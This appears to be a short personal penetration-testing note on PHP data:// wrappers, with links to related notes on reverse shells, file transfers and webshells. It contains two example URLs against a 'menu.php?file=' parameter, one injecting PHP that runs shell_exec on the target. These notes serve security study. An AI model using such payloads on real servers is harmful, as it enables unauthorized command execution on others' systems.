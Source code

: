 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

[[4._File Transfers]]

---

[[0._PHP_Webshells#PHP]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
